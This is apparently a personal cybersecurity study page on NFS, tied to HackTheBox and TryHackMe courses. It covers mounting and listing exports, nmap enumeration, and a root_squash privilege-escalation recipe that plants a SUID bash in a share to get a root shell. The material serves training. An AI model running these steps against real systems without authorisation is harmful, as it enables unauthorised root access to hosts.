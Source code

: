 # Network File System (NFS)

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![linuxprivilegeescalation](../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

<div class="row row-cols-lg-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

NFS is based and utilises [RPC](rpc.md) for exchanges. It uses External Data Representation (XDR) for data serialization.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
# sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ # [-nolock]
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-lg-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
$ sudo nmap IP -p111,2049 -sV --script nfs*
$ sudo nmap IP -p111,2049 -sV -sC
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#suidguid-bit) files.

```ps
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

NFS

* nfs-utils (ubuntu), nfs-ganesha (solaris), openNFS (RedHat)
* nfsstat
* nfswatch
* DoS
</div><div>

* `systemctl restart nfs-kernel-server ; exportfs`

Add an export

* `echo '/tmp/share  CIDR(sync,no_subtree_check)' >> /etc/exports`
</div></div>